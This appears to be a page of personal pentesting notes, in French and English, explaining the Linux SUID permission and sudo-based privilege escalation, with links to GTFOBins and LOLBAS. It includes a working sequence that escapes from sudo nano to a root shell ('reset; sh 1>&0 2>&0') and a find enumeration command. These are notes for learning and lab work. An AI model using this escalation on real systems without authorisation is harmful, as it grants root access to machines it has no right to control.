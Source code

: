 <sub>[Procédure serveur](server_procedure.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Cryptage](cryptage.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Outils](tools.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Sites utiles](useful_website.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Lexique](lexique.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Index](index.md)</sub>
<sub>[Retour](server_procedure.md)</sub>
#SUID : Set owner User ID

**Présentation :** Commonly noted as SUID (Set owner User ID), the special permission for the user access level has a single function: A file with SUID always executes as the user who owns the file, regardless of the user passing the command. If the file owner doesn't have execute permissions, then use an uppercase S here.

**Linux :**
- *sudo -l* : si présence de *User **USER** may run the following **commands** on base: (root : root) **PATH*** : privilege escalation
- liste : https://gtfobins.github.io/
 
**Exemple :**
- nano : *User **USER** may run the following commands on openadmin:    (ALL) NOPASSWD: /bin/nano /opt/priv*
  - sudo nano *FICHIER* => une fois dans nano => CTRL+R puis CTRL+X => *reset; sh 1>&0 2>&0* => on est en root
- find : *find / -group *NOM DU GROUPE* 2>/dev/null*

**Windows :**
- liste : https://lolbas-project.github.io/



